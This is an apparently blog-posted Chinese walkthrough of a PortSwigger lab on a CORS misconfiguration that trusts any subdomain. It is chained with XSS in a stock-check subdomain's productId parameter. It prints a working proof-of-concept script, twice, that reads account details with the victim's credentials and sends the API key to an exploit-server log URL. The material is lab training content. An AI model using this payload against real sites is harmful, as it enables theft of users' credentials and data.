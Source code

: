 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/7DD8892D9025408E891BFB01FF038D6Eclipboard.png)

当添加任意子域时，响应标头返回，说明cors信任任意子域



该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/cors/images/7577CAA55B6E425E98353F608BC6D42Aclipboard.png)



所以可以采用攻击链：

```javascript
子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站
```

poc:

```javascript
<script>
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

poc解释：

```javascript
<script>
//子域触发xss，xss访问主域敏感信息
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/
   ?productId=4
   //采用原生js http请求将获取到的内容，保存到主机
   <script>var req = new XMLHttpRequest(); 
   req.onload = reqListener; 
   //访问敏感信息
   req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); 
   req.withCredentials = true;
   req.send();function reqListener() {
       //携带敏感信息，get请求访问主机，主机log日志即可出现用户apikey
   location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };
   %3c/script>
   &storeId=1"
</script>
```

